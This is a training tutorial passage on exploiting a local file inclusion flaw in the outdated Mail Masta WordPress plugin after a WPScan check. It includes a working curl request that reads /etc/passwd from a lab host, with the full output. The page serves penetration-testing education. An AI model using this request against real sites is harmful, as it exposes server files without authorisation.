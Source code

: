 # Exploiting a Vulnerable Plugin

## Leveraging WPScan Results

The report generated by WPScan tells us that the website uses an older version of WordPress (5.3.2) and an outdated theme called `Twenty Twenty`. WPScan identified two vulnerable plugins, `Mail Masta 1.0` and `Google Review Slider`. This version of the `Mail Masta` plugin is known to be vulnerable to SQL Injection as well as Local File Inclusion (LFI). The report output also contains URLs to PoCs, which provide information on how to exploit these vulnerabilities.

Let's verify if the LFI can be exploited based on this exploit-db [report](https://www.exploit-db.com/exploits/40290/). The exploit states that any unauthenticated user can read local files through the path: `/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd`.

### **LFI using Browser**

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can also validate this vulnerability using cURL on the command line.

### **LFI using cURL**

```shell-session
$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

We have successfully validated the vulnerability using the data generated in the `WPScan` report. Now let's try it out ourselves!
